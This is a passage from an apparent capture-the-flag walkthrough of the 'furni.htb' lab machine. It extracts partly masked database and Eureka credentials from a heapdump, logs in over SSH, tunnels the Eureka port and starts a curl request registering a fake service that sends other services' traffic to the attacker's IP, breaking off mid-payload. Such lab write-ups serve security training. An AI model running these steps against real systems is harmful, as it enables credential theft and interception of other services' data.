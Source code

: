 The downloaded `heapdump` file can contain sensitive information. Using a tool like **JDumpSpider**, you can extract credentials and other configuration details.

```bash
❯ java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump
```

The output reveals several crucial pieces of information:

  * **MySQL Database Credentials**:

      * `username`: **oscar190**
      * `password`: **0sc@r19XXXXXXXXXXXXXXXX**
      * `url`: `jdbc:mysql://localhost:3306/Furni_WebApp_DB`

  * **Eureka Server Credentials**:

      * `username`: **EurekaSrvr**
      * `password`: **0scarXXXXXXXXXXXXX**
      * `url`: `http://EurekaSrvr:0scarXXXXXXXXXXXXX@localhost:8761/eureka/`

### SSH Access

The credentials `oscar190` and `0sc@XXXXXXXXXXXXXXXX` can be used to log in via **SSH**.

```bash
❯ ssh oscar190@furni.htb
```

-----

## 🔗 Eureka Service

The heap dump analysis showed a connection to `localhost:8761`. Checking the open ports on the machine with `ss -tuln` confirms that port 8761 is listening on all interfaces. This is the **Eureka Server**, a service discovery component often used in microservice architectures.

To interact with this service from your local machine, you need to set up an **SSH tunnel** to forward port 8761.

```bash
❯ ssh oscar190@furni.htb -L 8761:127.0.0.1:8761
```

### Exploiting Eureka

By default, Eureka servers allow **any service to register** without authentication. However, in this case, the `EurekaSrvr` credentials are required, which we already found. By registering a **malicious or fake service** to the Eureka server, we can receive sensitive information that other services might send.

The `Hacking Netflix Eureka` article provides a method for this exploit. We'll register a fake service and set its IP to our local machine, listening on port 8081.

```bash
oscar190@eureka:~$ curl -X POST http://EurekaSrvr:0scarXXXXXXXXXXXXX@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE  -H 'Content-Type: application/json' -d '{ 
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "10.10.xx.xx",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.xx.xx",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {   
      "$": 8081,
      "@enabled": "true"
    },
    "dataCenterInfo": {
```